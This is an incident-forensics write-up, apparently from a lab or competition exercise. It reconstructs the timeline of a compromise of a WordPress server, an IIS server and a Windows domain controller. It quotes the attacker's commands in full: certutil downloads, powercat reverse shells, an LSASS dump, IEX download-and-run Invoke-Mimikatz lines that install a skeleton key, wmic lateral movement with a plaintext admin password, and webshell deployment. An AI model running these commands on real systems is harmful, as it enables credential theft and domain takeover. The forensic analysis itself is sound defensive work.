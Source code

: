 # T5-fornesis

by asef18766(陳兆閔) and YingMuo(彭建霖)

## how attack
* ubuntu wordpress web server : ```CVE-2019-9978``` to get webshell and ```sqlmap``` to get wropress admin account

* windows IIS server : ```CVE-2020-0688``` (awaiting to determinate) attack and create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1)

* windows dc server : in IIS server execute ```Sqldumper.exe  468 0 0x01100``` dumps the process with pid ```468```(probably ``` lsass.exe```) and use Minikatz to get dc's admin 's account and password (/user:TEAMT5\Administrator /password:admin12345!!!) and connect by IIS server

## Horizon move
* ubuntu -> IIS : post bt.ext and nt.exe by tunnel

* IIS -> dc : create process ipconfig.exe via ```"c:\windows\system32\cmd.exe" /c wmic /node:192.168.1.4 /user:TEAMT5\Administrator /password:admin12345!!! process call create "ipconfig.exe"```

## timeline

* 2020/8/3 AM 09:38:35, ```CVE-2019-9978``` and post shell, ```bt.exe```, ```nt.exe``` by ```10.20.3.131``` (ubuntu web server)

* 2020/8/4 AM 08:42:33 ```CVE-2020-0688``` (awaiting to determinate) (windows IIS)

* 2020/8/4 AM 08:48:26 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88``` with role ```SYSTEM``` (windows IIS)

* 2020/8/4 AM 08:49:26, start to ```sqlmap``` by ```10.20.2.227``` (ubuntu web server)

* 2020/8/4 AM 08:51:25 execute ```Sqldumper.exe  468 0 0x01100``` dumps the process with pid ```468```(probably ``` lsass.exe```) (windows IIS)

* 2020/8/4 AM 09:12:51 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/nt.exe nt.exe``` to download ```nt.exe``` from ubuntu server (windows IIS)

* 2020/8/4 AM 09:13 execute ```nt.exe``` with various parameter (windows IIS)
    * -help
    * /h

* 2020/8/4 AM 09:16:02 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/bt.exe bt.exe``` to download ```bt.exe``` from ubuntu server (windows IIS)

* 2020/8/4 AM 09:16:29 execute ```bt.exe 192.168.1.0/24``` in ```C:\Users\Public\Music\``` (windows IIS)

* 2020/8/4 AM 09:16:31, tunnel (npv) start (ubuntu web server)

* 2020/8/4 AM 09:23:44, invoke Mimikatz via ```cmd.exe /Q /c IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" 1> \\127.0.0.1\ADMIN$\__1596450222.629457 2>&1``` by ```WIN-LN8SES7K1Q5$``` (windows DC)

* 2020/8/4 AM 09:24:46, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'" ``` by ``` Administrator ``` (windows DC)

* 2020/8/4 AM 09:24:46, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'" ``` by ``` Administrator ``` (windows DC)

* 2020/8/4 AM 09:26:37, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" ``` by ``` Administrator ``` (windows DC)

* 2020/8/4 AM 09:26:37, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" ``` by ``` Administrator ``` (windows DC)

* 2020/8/4 AM 09:42:07, use tunnel scan internet (ubuntu web server)

* 2020/8/4 AM 09:45:56, login wordpress with admin account by ```10.20.2.165``` (ubuntu web server)

* 2020/8/4 AM 10:23:15, use tunnel request ```http://192.168.1.3/Umbraco/aaaa.aspx``` it's old webshell (ubuntu web server)

* 2020/8/4 PM 10:15:48, use tunnel request ```http://192.168.1.2/admine21_decode.php``` I don't know what it mean (ubuntu web server)

* 2020/8/4 PM 11:04:21, use tunnel request ```http://192.168.1.3/umbraco/AspxSpy2014Final.aspx``` it's webshell (ubuntu web server)

* 2020/8/4 PM 11:07:16, use tunnel request ```http://192.168.1.3/umbraco/bbbb.aspx``` it's webshell (ubuntu web server)

* 2020/8/5 AM 07:34:16 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88``` (windows IIS)

* 2020/8/5 AM 08:58:20 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.2.165``` (windows IIS)

* 2020/8/5 AM 09:07:15 download string from ```http://10.20.2.206/test.txt``` as ```test.aspx``` (windows IIS)


* 2020/8/5 PM 10:07:07 create [aspx webshell](https://raw.githubusercontent.com/tennc/webshell/master/aspx/AspxSpy2014Final.aspx) at ```inetpub/wwwroot/UmbracoCms/Umbraco``` (windows IIS)

* 2020/8/5 PM 10:25:34 RPC ```192.168.1.4``` via ```"c:\windows\system32\cmd.exe" /c wmic /node:192.168.1.4 /user:TEAMT5\Administrator /password:admin12345!!! process call create "ipconfig.exe"``` (windows IIS)

* 2020/8/5 PM 10:25:34, execute ipconfig.exe by ```TEAMT5\Administrator``` (windows DC)

* 2020/8/5 PM 10:26:13 invoke Mimikatz via ```c:\windows\system32\cmd.exe" /c wmic process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'\"``` to create password skeleton key (windows IIS)

* 2020/8/5 PM 10:26:25 invoke Mimikatz via ```wmic  process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'\""``` to modify ```lsass.exe``` (windows IIS)

* 2020/8/5 PM 10:27:32 ```"c:\windows\system32\cmd.exe" /c net use z: \\WIN-LN8SES7K1Q5\C$ /user:TEAMT5\Administrator mimikatz``` (windows IIS)

[time graph link](https://time.graphics/embed?v=1&id=463591)
